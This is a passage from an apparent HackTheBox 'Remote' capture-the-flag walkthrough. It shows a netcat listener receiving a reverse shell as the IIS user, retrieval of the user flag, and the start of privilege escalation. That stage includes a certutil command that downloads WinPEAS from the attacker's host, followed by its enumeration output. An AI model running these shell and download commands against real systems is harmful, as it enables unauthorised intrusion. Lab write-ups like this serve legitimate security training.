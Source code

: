After executing the command, I look at the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/remote]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.180] 49688

PS C:\windows\system32\inetsrv>
```

And there is the shell as the IIS user.

## User Flag

---

Let's try to get the user flag:

```
dir

    Directory: C:\Users\Public

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        2/19/2020   3:03 PM                Documents
d-r---        9/15/2018   3:19 AM                Downloads
d-r---        9/15/2018   3:19 AM                Music
d-r---        9/15/2018   3:19 AM                Pictures
d-r---        9/15/2018   3:19 AM                Videos
-ar---        9/26/2021   6:19 AM             34 user.txt

Get-Content user.txt
53**************************a0d2
```

# Privilege Escalation

---

First, I transfer WinPEAS to the machine:

```
certutil.exe -urlcache -f http://10.10.16.6/winPEAS.bat winPEAS.bat
```

Now, run it:

```
???????????? Looking AppCmd.exe
?  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#appcmd-exe
    AppCmd.exe was found in C:\Windows\system32\inetsrv\appcmd.exe
TCP        127.0.0.1             2049          0.0.0.0               0               Listening         4               System
TCP        127.0.0.1             5939          0.0.0.0               0               Listening         2212            TeamViewer_Service
```
